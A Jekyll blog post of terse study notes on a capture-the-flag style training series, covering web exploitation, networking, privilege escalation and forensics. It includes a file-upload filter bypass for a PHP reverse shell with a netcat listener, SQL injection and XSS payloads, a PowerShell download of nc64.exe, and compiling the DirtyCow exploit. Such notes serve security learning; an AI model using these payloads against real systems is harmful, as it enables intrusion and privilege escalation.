 ```yaml
---
layout: post
title: "Welcome to Jekyll!"
date: 2022-03-21 15:05:46 +0100
categories: jekyll update
---
```


### [Day 1] Web Exploitation A Christmas Crisis

Web/HTTP(S)/Cookies

Cookies encodede -> cyberchef

### [Day 2] Web Exploitation The Elf Strikes Back!

File upload bypass filter
php rev shell => only pic allowed -> file.jpg.php

file | accepted file format | execuable
root nc -lvnp port

### [Day 3] Web Exploitation Christmas Chaos

burpsuite credentials testing

one thing -> sniper
more -> cluster bomb

### [Day 4] Web Exploitation Santa's watching

fuzzing with wfuzz or gobuster

`sudo wfuzz -c -z file,/home/kali/Documents/thm/25_days_of_cyber_security/day4/wordlist.txt -u http://10.10.182.221/api/site-log.php?date=FUZZ `

`wfuzz -c -z file,big.txt -d "breed=FUZZ" -u http://shibes.xyz/api.php`

### [Day 5] Web Exploitation Someone stole Santa's gift list!

SQL injection
user : asdf'
pwd or 1=1 --

### [Day 6] Web Exploitation Be careful with what you wish on a Christmas night

OWASP ZAP automate XSS scan

```
<img src='LINK' onmouseover="alert('xss')">
```

```
> <script> evilcode() </script>
```

`10.10.100.27/reflected?keyword=<script>alert(1)</script>`

### [Day 7] Networking The Grinch Really Did Steal Christmas

wireshark

`filter http.request.method==GET`

### [Day 8] Networking What's Under the Christmas Tree?

nmap

### [Day 9] Networking Anyone can be Santa!

ftp anonymous login allowed -> able to found \*.sh file that we get and put we able to add reverse shell

### [Day 10] Networking Don't be sElfish!

Samba discover enum4linux -> know username and shares try login with ->
possible weak password

### [Day 11] - The Rogue Gnome: Prelude

```shell
python3 -m http.server 8080
```

[GTFObins](https://gtfobins.github.io/)

### [Day 12] Networking Ready, set, elf.

Windows PrivEsc:

```powershell
Invoke-WebRequest "http://10.9.158.252:9999/nc64.exe" -OutFile "nc64.exe"
```

- powershell
- WinPeas
- powerup.ps1

### [Day 13] Networking Coal for Christmas

DirtyCow

```shell
gcc -pthread dirty.c -o dirty -lcrypt
```

### [Day 14] OSINT Where's Rudolph?

OSINT

### [Day 15] Scripting There's a Python in my stocking!

python scripting

### [Day 16] Scripting Help! Where is Santa?

python api endpoint fuzzing

### [Day 17] Reverse Engineering ReverseELFneering

[radare2](https://github.com/radareorg/radare2)

### [Day 18] Reverse Engineering The Bits of Christmas

ILSpy

### [Day 19] Special by Tib3rius The Naughty or Nice List

Server-Side Request Forgery

### [Day 20] Blue Teaming PowershELlF to the rescue

powershell

### [Day 21] Blue Teaming Time for some ELForensics

powershell

### [Day 22] Blue Teaming Elf McEager becomes CyberElf

cyberchef

### [Day 23] Blue Teaming The Grinch strikes again!

windows

### [Day 24] Special by DarkStar The Trial Before Christmas
